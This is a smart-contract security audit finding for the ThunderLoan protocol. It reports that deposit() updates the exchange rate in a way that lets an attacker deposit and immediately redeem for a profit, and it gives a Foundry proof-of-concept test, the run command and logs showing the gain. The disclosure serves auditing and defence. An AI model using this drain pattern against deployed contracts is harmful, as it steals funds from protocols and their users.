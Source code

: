 ## HIGH

### [HIGH-1] Updating Exchange Rate in `deposit()` function Can Lead to Attacker Draining of Underlying Tokens.

**Description:**
The `deposit()` function in the ThunderLoan contract updates the exchange rate after a deposit has been made. This behavior allows an attacker to exploit the exchange rate adjustment mechanism by continuously depositing and redeeming tokens. Each deposit updates the exchange rate, and by performing this in a loop, an attacker can drain the underlying tokens from the protocol.

**Impact:**
An attacker can deplete the protocol's underlying token reserves. This vulnerability compromises the security of the protocol, leading to a significant loss of funds for the protocol and its users. As users' deposits can be drained, this would result in a loss of trust and potential financial damage to all parties involved.

**Proof of Concept:**

i Wrote Little Test Which Shows Attacker Deposits `DEPOSIT_AMOUNT = 1e21`, and then `redeem()`s right after it and gets more tokens.

```javascript
    function testAttackerCanDepositAndRedeemAfterToDrainProtocolFunds() public setAllowedToken hasDeposits {
        vm.startPrank(attacker);

        tokenA.mint(attacker, DEPOSIT_AMOUNT);
        tokenA.approve(address(thunderLoan), DEPOSIT_AMOUNT);
        thunderLoan.deposit(tokenA, DEPOSIT_AMOUNT);

        console.log("Attacker Deposited This Amount: ", DEPOSIT_AMOUNT);

        AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);
        thunderLoan.redeem(tokenA, assetToken.balanceOf(attacker));

        console.log("Attacker Redeemed Right After it and Received: ", tokenA.balanceOf(attacker));

        vm.stopPrank();

        assert(tokenA.balanceOf(attacker) > DEPOSIT_AMOUNT);
    }
```

Run the Test With Following Command:

```javascript
   forge test --match-test testAttackerCanDepositAndRedeemAfterToDrainProtocolFunds -vvvv
```

Take a Look at the `Logs`:

```javascript
   Logs:
      Attacker Deposited This Amount:  1000000000000000000000
      Attacker Redeemed Right After it and Received:  1001502246630054917247
```

